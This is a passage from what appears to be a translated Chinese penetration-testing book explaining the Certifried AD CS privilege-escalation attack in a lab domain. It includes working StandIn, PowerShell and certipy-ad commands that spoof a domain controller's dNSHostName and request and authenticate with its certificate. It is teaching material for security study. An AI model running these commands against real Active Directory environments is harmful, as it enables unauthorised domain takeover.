 该漏洞与**samAccountName**欺骗（CVE-2021-42278）有许多相似之处。作者的原创研究已在此发布[13]。

在 AD CS 中，默认情况下有两个认证证书：用户和机器。每个用户帐户都有一个**用户主体名称**（**UPN**），该名称必须是唯一的。UPN 嵌入到证书中，并在认证过程中由 KDC 使用。计算机帐户没有 UPN，**dNSHostName** 作为替代使用。计算机帐户的创建者有权写入此属性，称为**验证写入 DNS 主机名**。该属性不要求唯一性，但在**dNSHostName**更改后，SPN 也将更改。SPN 在域中有唯一性要求，但计算机帐户创建者可以更改 SPN（**验证写入服务主体名称**）。攻击的思路是创建一个计算机帐户，清除包含完全限定域名（FQDN）的 SPN，将**dNSHostName**更改为与目标匹配（例如，域控制器），然后请求证书。需要特别说明的是，**dNSHostName**属性仅在请求证书时使用，而不用于证书映射。

为了在本节中进行攻击，我们将使用名为 Certipy[14] 的工具；不过，也有一个名为**certipy-ad**的分支，可以安装在 Kali 上。两种工具的语法是相同的。两种工具都支持所有特权提升场景、影子凭据攻击和金色证书伪造。

首先，我们为攻击做必要的准备。我们将创建一个计算机帐户，清除 SPN，并将 **dNSHostName** 属性更改为与域控制器匹配。以下 PowerShell 命令和 **StandIn** 工具将完成这项工作：

```
StandIn.exe –computer legitpc –make
Set-ADComputer legitpc -ServicePrincipalName @{}
Set-ADComputer legitpc -DnsHostName meereen.essos.local
Get-ADComputer legitpc -properties dnshostname,serviceprincipalnames
```

前面命令执行的结果如下截图所示：

![图 8.15 – Certifried 利用准备](img/B18964_08_15.jpg)

图 8.15 – Certifried 利用准备

现在，使用 **certipy-ad**，我们请求证书并以域控制器计算机帐户身份进行身份验证：

```
certipy-ad req -u 'legitpc$@essos.local' -p 'xfdb8UeqqgT9Aje' -target 192.168.56.23 -ca ESSOS-CA -template Machine -dc-ip 192.168.56.12
certipy-ad auth -pfx meereen.pfx -dc-ip 192.168.56.12
```
